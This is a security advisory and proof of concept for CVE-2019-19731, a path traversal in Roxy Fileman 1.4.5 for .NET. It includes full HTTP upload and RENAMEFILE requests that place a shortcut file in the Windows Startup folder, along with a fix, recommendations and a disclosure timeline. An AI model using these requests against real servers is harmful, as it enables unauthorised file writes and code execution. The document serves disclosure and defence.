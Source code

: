 # CVE-2019-19731: Directory traversal in Roxy Fileman for .NET 1.4.5

Roxy Fileman 1.4.5 for .NET is vulnerable to path traversal which can lead to file write in arbitrary locations depending on 
the IIS worker process privileges [1]. This PoC demonstrates a crafted Windows shortcut file being uploaded and written to the Startup folder. The execution
of this file will be triggered on the next login.

Tested on ASP.NET 4.0.30319 and Microsoft-IIS 10.0, Windows 10 Pro Build 17134, using custom account as application pool identity for the IIS worker process.

## Proof of concept

It's possible to write an uploaded file to arbitrary locations using the `RENAMEFILE` action.
The `RenameFile` function in `main.ashx` does not check if the new file name parameter `name` is a valid location.
Moreover, the default conf.json has an incomplete blacklist for file extensions which in this case
allows Windows shortcut files to be uploaded, alternatively existing files can be renamed to include 
the `.lnk` extension.

1. Creating a shortcut file

By using for example the target executable `C:\Windows\System32\Calc.exe` and
removing the `.lnk` extension and renaming it to use the `.dat` extension.

2. Uploading the file

Either upload the `.dat` file manually via the Roxy Fileman web interface
or programmatically using a HTTP POST request. 

Details of the request:

```
POST /wwwroot/fileman/asp_net/main.ashx?a=UPLOAD HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------159382831523528
Content-Length: 924
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

-----------------------------159382831523528
Content-Disposition: form-data; name="action"

upload
-----------------------------159382831523528
Content-Disposition: form-data; name="method"

ajax
-----------------------------159382831523528
Content-Disposition: form-data; name="d"

/wwwroot/fileman/Uploads/test2
-----------------------------159382831523528
Content-Disposition: form-data; name="files[]"; filename="poc.dat"
Content-Type: application/octet-stream

...data omitted...
-----------------------------159382831523528--
```

3. Write the file to the Startup folder using the `RENAMEFILE` action

The new filename is set via the `n` parameter. The correct path can be identified by trial and error depending 
on the location of `wwwroot` on the filesystem and the privileges for the IIS worker process (`w3wp.exe`).

If the necessary directories do not exist, they can be created using the `CREATEDIR` action which is also
vulnerable to path traversal.

```
POST /wwwroot/fileman/asp_net/main.ashx?a=RENAMEFILE&f=%2Fwwwroot%2Ffileman%2FUploads%2FDocuments%2Fpoc.dat&n=../../../../../../../../AppData/Roaming/Microsoft/Windows/Start%20Menu/Programs/Startup/poc.txt.lnk HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 66
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

f=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2%2Fpoc.dat&n=poc.dat
```

## Workaround / Fix
Patch the `main.ashx` code in order to perform checks for all paths that they are valid for the following actions: 
`CREATEDIR`, `COPYFILE` and `RENAMEFILE`.

Recommendations for users of Roxy Fileman:
  - Add `lnk` file extension to the `conf.json` under `FORBIDDEN_UPLOADS`, and `aspx` since it is not included in the blacklist by default.


## Timeline
- 2019-12-06: Discovered the vulnerability
- 2019-12-06: Reported to the vendor (vendor is unresponsive)
- 2019-12-11: Request CVE
- 2019-12-13: Advisory published

## References
[1] CVE-2019-19731 - https://nvd.nist.gov/vuln/detail/CVE-2019-19731

